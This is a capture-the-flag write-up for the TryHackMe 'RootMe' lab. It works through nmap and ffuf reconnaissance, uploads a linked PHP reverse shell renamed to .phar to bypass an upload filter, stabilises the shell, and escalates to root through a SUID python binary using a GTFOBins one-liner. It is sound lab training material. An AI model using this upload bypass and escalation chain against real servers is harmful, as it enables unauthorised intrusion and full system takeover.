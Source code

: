 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . RootMe
# DESCRIPTION       . A ctf for beginners, can you root me?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/rrootme
```

```bash
sudo nmap -sSVC -T5 10.10.170.43 -p- -oN ~/workspace/ctf_workspace/rootme
```

```
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- While the nmap scan was looking, I took checked to see if there's a webserver running on port 80; 

- I thought that it might reveal useful information if I bruteforce a bit for endpoints since there were not any particular useful information on the `index.html` page.

```bash
ffuf -u http://10.10.170.43/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  -t 100
```

```
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 616, Words: 115, Lines: 26]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
```

- There was nothing in `uploads`, but `panel` provided an upload form.

- I tried uploading [Pentestmonkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), but `.php` was filtered.

- I managed to bypass that filter by changing the extension from `.php` to `.phar`. 

- We got a reverse shell as `www-data` and this is enough to grab the first flag from `/var/www`

- Then, I've stabilized the shell and started looking for privilege escalation vectors.

```stabilisation
python3 -c 'import pty;.pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL+Z>
stty raw -echo; fg
```

- While I was manually enumerating the system for possible escalation paths, I've checked for any SUID-set binaries.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

```
-rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

- Python showed up - and this is not common, so I've checked it against [GTFObins](https://gtfobins.github.io/) for possible escalation.

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```sh
# whoami
root
```

- The last flag was found in `/root/root.txt`.

